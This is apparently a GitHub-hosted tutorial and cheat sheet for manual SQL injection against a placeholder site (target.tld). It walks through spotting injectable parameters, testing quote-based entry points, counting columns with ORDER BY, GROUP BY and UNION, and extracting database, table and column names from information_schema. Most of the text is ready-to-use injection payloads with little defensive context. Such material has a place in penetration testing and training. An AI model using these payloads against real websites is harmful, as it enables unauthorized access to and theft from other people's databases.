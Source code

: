 Automation Tool: 

        paramspider --domain http://target.tld

        
Manually:

In the process of finding SQL on the desired website, we must look for pages and forums that we must enter, 

or for example, by clicking on an icon or item, a new section will open for us.

For example, by clicking on an item, a GET request is sent to the origin of the website, but the id parameter is added to the URL and the value 13 is requested.

    http://target.tld/product.php?id=13

In order to make sure that this id parameter is related to the DBMS, we test different values ​​in the id input value.

For example, we have already tested and we know that we have a value for id=18.

so => id=13'+'5  and URL endoce it: id = 13'%2b'5

Entry Point:

     [Nothing]
    '
    "
    `
    ')
    ")
    `)
    '))
    "))
    `))

If it works and the output of parameter id=18 is displayed, you can test other inputs as well


another query: 

    ?id=13'AND 1=1 %23
    ?id=13'AND 1=0 %23
    ?id=13' order by 1 %23    => always true query


You can find the number of columns with order by:

    ?id=13'order by 10 %23

We will send this request if we don't get a response, that means the number of columns is less than 10 Now we decrease one by one until we get the response on page 13 and find the number of columns.

    1' ORDER BY 1--+    #True
    1' ORDER BY 2--+    #True
    1' ORDER BY 3--+    #True
    1' ORDER BY 4--+    #False - Query is only using 3 columns
                            #-1' UNION SELECT 1,2,3--+    True

and GROUP BY:

    1' GROUP BY 1--+    #True
    1' GROUP BY 2--+    #True
    1' GROUP BY 3--+    #True
    1' GROUP BY 4--+    #False - Query is only using 3 columns
                            #-1' UNION SELECT 1,2,3--+    True

                            



UNION is used to agree two queries. You can find the number of columns using UNION

    ?id=13'UNION SELECT NULL-- -            => ERROR!
    ?id=13'UNION SELECT NULL,NULL-- -       => ERROR!
    ?id=13'UNION SELECT NULL,NULL,NULL-- -  => No Error, so the number of columns is 3





Extract database names, table names and column names

    #Database names
    -1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
    
    #Tables of a database
    -1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]
    
    #Column names
    -1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]



